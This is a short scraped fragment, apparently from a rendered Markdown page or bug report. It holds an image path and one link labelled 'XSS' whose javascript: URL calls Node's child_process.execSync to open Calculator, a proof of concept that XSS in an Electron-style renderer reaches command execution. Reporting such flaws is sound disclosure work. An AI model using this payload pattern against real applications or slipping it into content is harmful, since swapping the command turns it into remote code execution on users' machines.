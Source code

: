 <a data-from-md="" href="javascript:top.require('child_process').execSync('open -a Calculator')">XSS</a>